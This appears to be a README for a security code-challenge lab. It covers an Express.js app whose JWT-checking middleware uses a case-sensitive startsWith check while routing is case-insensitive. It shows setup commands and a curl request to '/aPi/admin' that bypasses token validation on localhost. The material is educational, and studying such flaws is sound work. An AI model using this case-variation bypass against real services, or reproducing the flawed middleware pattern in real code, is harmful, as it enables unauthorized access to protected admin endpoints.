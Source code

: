 # Day 4 Javascript
We have a small javascript application that developed by expressjs framework. ExpressJS routing provide case-insensitive routing by default.
But our team developed a middleware for validation of JWT tokens with `startsWith` function that are working case-sensitive by default.

# run
```bash
git clone https://github.com/ahmetak4n/sonarsource-code-challanges.git
cd sonarsource-code-challanges/day4
npm install
node app.js
```

# verify the vulnerability
You can't access `/api/admin` path because we don't have any valid JWT token
``` bash
curl  -X $'GET' \
    -H $'Host: localhost:1337' -H $'Upgrade-Insecure-Requests: 1' -H $'Connection: keep-alive' \
    -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36' \
    $'http://localhost:1337/api/admin'
```
----
You can bypass the token validation with following way
```bash
curl  -X $'GET' \
    -H $'Host: localhost:1337' -H $'Upgrade-Insecure-Requests: 1' -H $'Connection: keep-alive' \
    -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36' \
    $'http://localhost:1337/aPi/admin'
```
